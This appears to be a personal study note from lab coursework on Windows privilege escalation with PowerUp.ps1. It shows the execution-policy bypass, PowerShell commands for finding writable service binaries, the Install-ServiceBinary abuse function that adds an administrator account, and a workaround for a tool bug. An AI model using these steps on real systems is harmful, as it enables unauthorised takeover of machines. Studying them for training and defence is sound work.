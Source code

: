 ```yaml
---
aliases:
  - PowerUp.ps1
---
```

# PowerUp.ps1
> [!Note]
> Assume we're using the same scenario as in [hijacking-service-binaries](hijacking-service-binaries.md) and the other notes in this section.

[**PowerUp.ps1**](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) is a tool which we can use to detect [Windows](../../../computers/windows/README.md) privesc vectors. To use it, we just need to copy it to our *attacking machine*, then use a python HTTP server and `iwr` to infiltrate it onto the victim Windows machine.
## Use
After getting the script onto our target box, we need to start [PowerShell](../../../coding/languages/powershell.md) with the `ExecutionPolicy Bypass` to allow our current `dave` user to execute the script:
```powershell
PS C:\Users\dave> powershell -ep bypass
...
PS C:\Users\dave>  . .\PowerUp.ps1
```
### `Get-ModifiableServiceFile`
After importing the script, we can use `Get-ModifiableServiceFile` which is a function that displays [windows-services](windows-services.md) the current user *is allowed to modify*:
```powershell
PS C:\Users\dave> Get-ModifiableServiceFile

...

ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
```
PowerUp identified `mysqld.exe` in the `\xampp` directory as vulnerable (along with some others). It also tells us that we *don't have permission to restart the service*.
### `AbuseFunction`
Listed in the above output is the function `AbuseFunction`. We can use this to replace the binary (if our current user has permission to). This is a built in function, and it use it, we just have to call the command listed to the right of it.

Calling this function results in its default action: create a new user named `john` with the password `Password123!` and add him to the local `Administrators` group. To call it, our current user account also needs permissions to reboot the machine. Unfortunately, our current user `dave` does not have those permissions, so calling it would result in:
```powershell
PS C:\Users\dave> Install-ServiceBinary -Name 'mysql'

Service binary 'C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql' for service mysql not
modifiable by the current user.
At C:\Users\dave\PowerUp.ps1:2178 char:13
+             throw "Service binary '$($ServiceDetails.PathName)' for s ...
+             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OperationStopped: (Service binary ...e current user.:String) [], RuntimeException
    + FullyQualifiedErrorId : Service binary 'C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini
   mysql' for service mysql not modifiable by the current user.
```
Notice that the above error isn't regarding whether `dave` has reboot permissions. Instead, it describes the the path for the `mysql` service is `not modifiable by the current user`. This is a bug you can track down manually in the [PowerUp.ps1 code](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). Basically, when you give a path to a PS function defined in the code as `Get-ModifiablePath`, it breaks. 

Since this function is called when you run the `AbuseFunction` (`Install-ServiceBinary`), it triggers this error, even though we already know the current user `dave` *can modify the binary*. This is all to say that you, again, should never blindly trust an automated tool. Offsec gives the following manual test steps to establish this:
```powershell
PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath                IdentityReference Permissions
--------------                ----------------- -----------
C:\xampp\mysql\bin\mysqld.exe BUILTIN\Users     {WriteOwner, Delete, WriteAttributes, Synchronize...}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath     IdentityReference                Permissions
--------------     -----------------                -----------
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, WriteAttributes, Synchronize, ReadControl...}
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, GenericWrite, GenericExecute, GenericRead}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument -conf=C:\test\path' | Get-ModifiablePath -Literal 

PS C:\Users\dave> $ModifiableFiles
```

> [!Resources]
> - [**PowerUp.ps1**](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) 
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
